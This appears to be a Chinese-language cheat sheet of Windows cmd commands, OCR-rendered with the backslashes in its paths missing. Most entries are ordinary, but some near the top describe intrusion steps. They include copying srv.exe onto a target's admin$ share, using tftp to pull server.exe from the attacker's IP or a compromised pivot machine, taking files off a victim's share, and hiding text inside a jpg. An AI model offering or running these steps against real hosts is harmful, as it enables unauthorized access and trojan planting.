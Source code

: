 　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

　　route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface

　　arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息

　　start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令

　　mem 查看cpu使用情况

　　attrib 文件名(目录名) 查看某文件（目录）的属性

　　attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性

　　dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间

　　date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间

　　set 指定环境变量名称=要指派给变量的字符 设置环境变量

　　set 显示当前所有的环境变量

　　set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量

　　pause 暂停批处理程序，并显示出：请按任意键继续....

　　if 在批处理程序中执行条件处理（更多说明见if命令及变量）

　　goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）

　　call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）

　　for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）

　　echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置

　　echo 信息 在屏幕上显示出信息

　　echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中

　　findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello

　　find 文件名 查找某文件

　　title 标题名字 更改CMD窗口标题名字

　　color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
